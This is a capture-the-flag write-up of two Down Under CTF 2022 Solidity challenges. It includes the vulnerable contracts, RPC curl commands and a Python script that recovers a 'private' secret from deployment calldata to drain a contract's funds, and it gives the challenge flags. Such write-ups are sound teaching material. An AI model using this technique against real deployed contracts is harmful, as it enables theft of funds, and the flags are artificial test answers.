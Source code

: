 The Down Under CTF 2022 took place and it included some nice blockchain challenges 
based on ethereum blockchains and solidity smart contracts. 
Although I've learned some solidity and watched some security theory I hadn't ever
used Remix before or deployed a contract on an EVM.

For this challenges we get our instance of a chain. A RPC endpoint. A JSON endpoint
that displays some information like your account, address of the challenge contracts,
and balance. A JSON endpoint that checks if the challenge condition is solved and 
displays flag.


## SolveMe 
### Blockchain - Beginner - 194 solves

We are given this contract, we need to call `solveChallenge()` and since it's external
we can call it from another contract. 

```javascript
pragma solidity ^0.8.0;

/**
 * @title SolveMe
 * @author BlueAlder duc.tf
 */
contract SolveMe {
    bool public isSolved = false;
    
    function solveChallenge() external {
        isSolved = true;
    }
}
```

We create this contract that will call `solveChallenge` on the target contract.

```javascript
pragma solidity ^0.8.0;

interface SolveMe {
    function solveChallenge() external;   
}
contract Test {
    address tg_addr = 0x6E4198C61C75D1B4D1cbcd00707aAC7d76867cF8;

    constructor() public payable {
        return SolveMe(tg_addr).solveChallenge();
    }   
}
```

To deploy it we need to connect to the chain. 

From Metamask we configure the RPC as the network and import the private key for the account.
We go https://remix.ethereum.org create a new file, paste the script and compile.
On the deploy tab we select Inject Provider and deploy the contract.
When the contract is deployed the `constructor` is called that calls the `solveChallenge`
and we can now visit the solve endpoint to get the flag.

`DUCTF{muM_1_did_a_blonkchain!}`

## Secret and Ephemeral
### Blockchain - Medium - 40 solves


We are given this contract that is deployed with some parameters,
one `secret` string that is saved as private and an int `secret_number`
that is not saved, instead it is hashed with the string and the deployers 
address and this hash is saved as public.

There is also a `retrieveTheFunds` public function that takes 3 parameters, 
the secret, number and address, and checks their hash against the saved one,
if all checks it gives all funds to the caller without checking it is the 
actual owner. That's our win function.

```javascript
pragma solidity ^0.8.0;

/**
 * @title Secret And Ephemeral
 * @author Blue Alder (https://duc.tf)
 **/

contract SecretAndEphemeral {
    address private owner;
    int256 public seconds_in_a_year = 60 * 60 * 24 * 365;
    string word_describing_ductf = "epic";
    string private not_yours;
    mapping(address => uint) public cool_wallet_addresses;

    bytes32 public spooky_hash; //

    constructor(string memory _not_yours, uint256 _secret_number) {
        not_yours = _not_yours;
        spooky_hash = keccak256(abi.encodePacked(not_yours, _secret_number, msg.sender));
    }

    function giveTheFunds() payable public {
        require(msg.value > 0.1 ether);
        // Thankyou for your donation
        cool_wallet_addresses[msg.sender] += msg.value;
    }

    function retrieveTheFunds(string memory secret, uint256 secret_number, address _owner_address) public {
        bytes32 userHash = keccak256(abi.encodePacked(secret, secret_number, _owner_address));

        require(userHash == spooky_hash, "Somethings wrong :(");

        // User authenticated, sending funds
        uint256 balance = address(this).balance;
        payable(msg.sender).transfer(balance);
    }
}

```

We need to retrieve the deploy parameters and this are saved on the transaction right after the bytecode
for the contract. Since this chain was just created for this challenge the contract was probably deployed
in one of the first blocks. We need to compare that transaction data with the contract code.

I set a helper function to call the RPC API.

```bash
export RPC_HOST="https://blockchain-secretandephemeral-030964c73d050caa-eth.2022.ductf.dev/";
alias rpcpost() {
  curl --data-raw $1 -H 'Content-Type: application/json' -X POST $RPC_HOST 
}
```

We get the code from the deployed contract at `0x6E4198C61C75D1B4D1cbcd00707aAC7d76867cF8`.

```bash
rpcpost '{"jsonrpc":"2.0","method":"eth_getCode","params":["0x6E4198C61C75D1B4D1cbcd00707aAC7d76867cF8","latest"],"id":1}' | jq -r '.result'

0x60806040526004361061004a5760003560e01c80631(...)5ab560caa833f878d167e3c94af9005d6dea322262181580b0f895864736f6c63430008110033
```

We iterate through the first few blocks and transactions searching for when the contract is deployed. 

```bash
for blockn in $(seq 0 10);do
    for txn in $(seq 0 3);do
        rpcpost "{\"jsonrpc\":\"2.0\",\"method\":\"eth_getTransactionByBlockNumberAndIndex\",\"params\":[\"0x$blockn\",\"0x$txn\"],\"id\":1}" | jq -r '{from: .result .from,input: .result .input}'
    done
done

{
  "from": "0x7bcf8a237e5d8900445c148fc2b119670807575b",
  "input": "0x6301e1338060015560c060405260(...)0000000000000000000000000000000000000000000"
}
```
The biggest blob there is probably our contract deployment, we can compare it with the code we got before 
to confirm. The values immediatly after the code is the encoded parameters.

From remix, after setting up the new network in Metamask, we can compile the new contract. 
Then from the deploy tab set the contract address and interact with the contract. 
This way we can get the `spooky_hash`. 


```python
from pwn import *
from eth_abi import *
from web3 import Web3 as w3

contract_owner = w3.toChecksumAddress('0x7bcf8a237e5d8900445c148fc2b119670807575b')
binary_params = '0000000000000000000000000000000000000000000000000000000000000040000000000000000000000000000000000000000000000000000000000dec0ded0000000000000000000000000000000000000000000000000000000000000022736f20616e79776179732069206a757374207374617274656420626c617374696e67000000000000000000000000000000000000000000000000000000000000'
secret_str, secret_number = decode(['string','uint256'],unhex(binary_params))
print(secret_str, secret_number)

hash = w3.solidityKeccak(['string','uint256','address'], [secret_str, secret_number, contract_owner])
print(hash.hex())
```

This hash now should be the same as the spooky_hash and we just call the `retrieveTheFunds` 
function with both secrets and the owner address. We check the solve endpoint.

`DUCTF{u_r_a_web3_t1me_7raveler_:)}`

The next blockchain challenge was Crypto Casino, I wasted all my time trying to exploit a suspected
reentrancy bug on withdraw that never worked and totally ignored the boring and evidently deterministic
`_randomNumber` function. 

It was great to finally get my hands dirty with solidity and getting to know the tools.
